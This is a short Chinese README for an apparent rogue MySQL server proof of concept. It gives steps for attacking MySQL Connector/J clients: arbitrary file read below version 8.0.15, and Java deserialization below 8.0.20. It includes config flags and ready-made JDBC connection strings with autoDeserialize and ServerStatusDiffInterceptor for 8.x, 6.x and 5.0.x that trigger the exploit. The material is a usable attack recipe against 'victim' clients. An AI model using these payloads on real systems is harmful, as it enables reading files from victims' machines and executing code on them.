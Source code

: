 ## 文件读取
版本 < 8.0.15  
配置config.yaml，`always_read: true` `jdbc_exploit: false`，启动rogue_mysql_server  
运行受害者客户端  

## 反序列化
版本 < 8.0.20  
配置config.yaml，`jdbc_exploit: true` `always_exploit: true`，启动rogue_mysql_server  
要触发反序列化漏洞除了版本要求外，还依赖jdbc连接字符串  
> 8.x: jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&user=root&password=password  
6.x: jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&statementInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&user=root&password=password  
5.0.x以上: jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&statementInterceptors=com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor&user=root&password=password  


PoC 来自于[rmb122](https://github.com/rmb122/rogue_mysql_server)，可自行编译